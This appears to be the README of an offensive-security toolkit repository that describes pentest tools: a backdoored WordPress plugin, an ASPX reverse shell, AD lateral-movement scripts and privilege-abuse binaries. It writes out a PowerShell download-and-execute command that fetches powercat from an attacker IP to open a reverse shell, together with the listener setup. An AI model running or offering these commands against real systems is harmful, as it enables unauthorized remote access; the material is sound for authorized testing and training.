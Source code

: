 <pre>
offensive
---------
Tips and tricks etc. for offensive security and testing

BackdoorPlug.php
|
'-->  A WordPres plugin containing reverse shell. 
      Prerequirements: you need access to the WP to upload and activate plugins.
      Just change the host/port to whatever your listener is running on and maybe adjust the shell accordingly too, then just zip 
      it, upload the zip as a plugin and activate the plugin to get connected with the WP-instance.

checklist
|
'-->  A very basic list of pentest steps.

config.Library-ms
|
'-->  A config library file to open a connection to the address defined in the simple location url, which for example serves 
      malicious Windows shortcut to execute some nasty powershell like:
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:9090/powercat.ps1'); powercat 
        -c 192.168.12.34 -p 4000 -e powershell"
      Here you should have the following: 
        - wsgidav (WebDAV: wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/username/webdav/) server running, 
          serving the Windows shortcut file, which runs the command above
        - a Python httpd (python -m http.server 9090) serving the powercat.ps1
        - a netcat listener (nc -nvlp 4000) or similar to catch the resulting reverse shell.

dorks.google
|
'-->  Some random Google dorks to leverage while enriching your case data

enumhelper.ps1
|
'-->  A helper script for AD enumeration and lateral movement. Built on-the-go so might contain a lot of logical fallacies and 
      missing lots of error checks.
      Check the help section before running: .\enumhelper.ps1 "help" for somewhat of instructions.
      Can do: 
        - LDAP queries
        - User/pass testing over LDAP-query
        - List all properties of LDAP response object
        - Get the value of a specific LDAP property
        - Get all SPNs and related objects
        - Check if any SPNs are tied to a (service)account
        - Get DC info: name, hostname, OS, OS version, IPv4 and IPv6
        - Get AD device info: name, hostname, OS, OS SP, OS version, IPv4 and IPv6
        - Get AD user/group info by SID (converting a SID to a name for example)
        - Create PsExec.exe or PsExec64.exe
        - SID lookup from AD
        - DCOM lateral movement leveraging MMC
          - Also the possibility of building a reverse-shell command and initiating it on the target
        - Remote connectiong over PowerShell
        - Remote commands over WMI, WINRS, PsExec or PsExec64:
          - Also the possibility of building a reverse-shell command and initiating it on the target

Get-Shortcut.ps1
|
'-->  Get shortcut (.lnk) info via PowerShell. Just import-module .\Get-Shortcut.ps1 and you can go: Get-Shortcut c:\path\to\link.lnk
      
kerbrute_linux_amd64
|
'-->  An awesome tool for Kerberos bruting from https://github.com/ropnop/kerbrute, here's a pre-built
      64bit Linux binary
      
KrbRelayUp.exe
|
'-->  Kerberos Relay attack binary. 
      Lost my mind trying to get this to build so then just ended up getting a prebuilt one from
      https://kb.offsec.nl/tools/techniques/krbrelayup/, thanks! The source is available at:
      https://github.com/Dec0ne/KrbRelayUp
      
nix-shell-tricks
|
'-->  Common tips and tricks etc. to use in Linux shell when being offensive or otherwise enumerating

php-trickery
|
'-->  Some PHP-tricks for offensive security

reverse_shell.aspx
|
'-->  Not my creation, credit goes to INSOMNIA SECURITY :: InsomniaShell.aspx, 
      brett.moore@insomniasec.com ::  www.insomniasec.com

SeBackupPrivilegeCmdLets.dll
SeBackupPrivilegeUtils.dll
|
'--> Precompiled dlls from https://github.com/giuliano108/SeBackupPrivilege for leveraging 
     SeBackupPrivileged AD account. These are prebuilt x64, if you need other then you
     need to build them yourself from giuliano's source. Otherwise:
            Import-Module .\SeBackupPrivilegeUtils.dll
            Import-Module .\SeBackupPrivilegeCmdLets.dll
            Set-SeBackupPrivilege
            Copy-FileSeBackupPrivilege .\un_accessible_document.pdf c:\temp\now_accessible.pdf -Overwrite

sqli-tips
|
'-->  Tips for SQL injections

winbin.sh
|
'-->  Whip up custom executable/dll on the fly. So far only supports creating a x64 executable/dll for 
      adding a defined user with a defined password to the Administrators group or changing an existing user's password. 
      For example if you need to replace a bin which you have full control over to gain further foothold or to leverage a 
      missing DLL etc.

windows-shell-tricks-and-ad-tips
|
'-->  Common tips and tricks etc. to use with PowerShell / cmd when being offensive or otherwise enumerating and getting to know AD
</pre>
